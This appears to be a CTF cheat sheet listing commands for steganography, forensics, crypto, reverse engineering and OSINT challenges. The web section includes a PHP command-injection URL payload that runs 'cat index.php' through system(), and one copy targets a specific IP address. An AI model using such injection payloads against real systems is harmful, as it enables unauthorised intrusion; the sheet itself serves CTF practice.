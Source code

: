 # CTF

- [Steganography](#stenography)
  - [Steganography audio](#stenographyaudio)
- [Web](#web)
- [Cryptography](#crypto)
- [Forensics](#forensics)
- [Reverse Engineering](#rev)
- [OSINT](#osint)
- pwd

## Steganography <a name="stenography"></a>

- ```steghide --extract -sf image.jpg -p <password>```
- ```stegcracker imag.png /user/share/wordlists/rockyou.txt```
- ```file image.png```
- ```strings image.png```
- ```pngcheck image.png```
- ```sudo apt install libimage-exiftool-perl -y```
  - ```exiftool image.png```
  - ```eog image.png```
- ```xxd image.png```
  - if you see IEND chunk in exiftool use this command.
- ```find | xargs cat | grep "find"``` //if you have lot of text file then you this
  - ```grep -rni "flag{.*}"```
- Download the stegsolve.jar in any GitHub
  - ```java -jar stegsolve.jar```
  - make sure that you give the permission. 
- [ZXing Decoder](https://zxing.org/w/decode.jspx)
  - If the image is QR code image
- ```sudo apt install ruby```
  - ```sudo gem install zsteg```
  - ```zsteg image.png``` or ```zsteg  -a image.png```
  - only for png image.
- ```binwalk -e image.png```
  - ```binwalk --dd = ".*" image.png```
- ```outguess -r image.png flag.txt```
  - for the LSB.
- one more for the LSB.
  - go to ---> [jsteg](https://github.com/lukechampine/jsteg) (clone it!!)
  - open the file
  - run this command ```go run cmd/jsteg/main.go reveal ~/Desktop/image.jpg```
- [Unicode](https://330k.github.io/misc_tools/unicode_steganography.html) 
  - zero width space
- redacted text (cover with block) in a given pdf
  - ```pdftotext file.pdf``` or ```pdftohtml  file.pdf```
- suspicious space and tabs in a given text file
![image](https://github.com/Chittu13/CTF/blob/main/image/space_tab.png)
  - python script to extract and convert from binary to ASCII and get  the flag.
``` python
def extract_and_convert(file_path):
    with open(file_path, 'rb') as file:
        data = file.read()

    result = ''
    for byte in data:
        if byte == 0x09:  // Tab character
            result += '0'
        elif byte == 0x20:  // Space character
            result += '1'
    
    return result

file_path = 'the_cs_dictionary.txt'

binary_string = extract_and_convert(file_path)

n = int(binary_string, 2)
print(n.to_bytes((n.bit_length() + 7) // 8, 'big').decode())

```
## Steganography audio <a name="stenographyaudio"></a>
- [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
- [stegolsb](https://github.com/ragibson/Steganography.git)
  - If the audio is related to LSB
  - ```cd Steganography```
  - give the permission
  - ```python3 setup.py install```
  - ```stegolsb wavsteg -r -i file.wav -o flag.txt -n 2 -b 1000```




## Web <a name="web"></a>
- ```http://127.0.0.1:808/index.php?page=' and die(system("cat index.php")) or ' ```
  - if you want to read the index.php use this payload in the url "    ' and die(system("cat index.php")) or ' "
- ```curl -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://example.com:8080/admin.php"```
  - you use this if you found hash in the sorce page
- ```wget -m http://example.com:8080/```
  - here it will download the all the file in the website
  - ```grep -R "CTF{.*}"``` use this commond after download the all files

## Cryptography <a name="crypto"></a>
1. This is [Hill Cipher](https://www.dcode.fr/hill-cipher), see how it works or use an online decoder
```
-------------------------
|76 |101|115|116|101|114|
-------------------------
|32 |83 |97 |110|100|101|
-------------------------
|114|115|32 |115|104|111|
-------------------------
|117|108|100|32 |104|101|
-------------------------
|108|112|32 |121|111|117|
-------------------------
|32 |58 |41 |41 |41 |42 |
-------------------------

KLZCOUKTVOUWUKDOBGZVJIIIRGVHXCRQUCNOX_IBBL 
```
![image](https://github.com/Chittu13/CTF/blob/main/image/hill_cipher.png)
  - flag ```CTF{BTW_EXISTS_AN_INTERESTING_FILM_ABOUT_HILLS}```
2. http://62.173.140.174:46005/index.php?page=' and die(system("cat index.php")) or '
    - if the web is old version use this in the url
3. Replace small letters with A, capital letters with B
    - ```BA BAAB AAABABAAAAABB AAA BBBBAA BBABAAA BA ABBABAAAB AABAAAA AB AAAAAA AABABB BBAABBABBAABA```
    - [bacon-cipher](https://www.dcode.fr/bacon-cipher)
## Forensics <a name="forensics"></a>
- [outer space audio](https://github.com/colaclanth/sstv.git)
  - ```sudo python3 setup.py install```
  - ```sstv -d file.wav -o result.png```
  - if the hit is related about SSTV(slow scan TV)
- ```strings flag.zip | grep -i cit | sort | uniq -u```
  - Given zip file was numerous directories with a flag.txt
- A simple script to converts the RGB values of each pixel into characters
```python
 from PIL import Image
import numpy as np

image_path = './secret_square.png'
img = Image.open(image_path).convert('RGB')

pixels = np.array(img)
print(pixels.shape)

sums = np.sum(pixels, axis=2)
print(sums.shape)

for row in sums:
    print(''.join([chr(x) for x in row]))
```

## Reverse Engineering <a name="rev"></a>
- ```ltrace ./filename```
  - The file is executable_file so we use ./filename
- ```strace ./filename```
- [ghidra](https://github.com/NationalSecurityAgency/ghidra/releases)
  - Download the zip file from the above line```hidra_11.0.3_PUBLIC_20240410.zip```

## OSINT <a name="osint"></a>
- To find the user in the internet use this tool called sherlock
```bash
# clone the repo
$ git clone https://github.com/sherlock-project/sherlock.git

# change the working directory to sherlock
$ cd sherlock

# install the requirements
$ python3 -m pip install -r requirements.txt
$ python3 sherlock user123
```
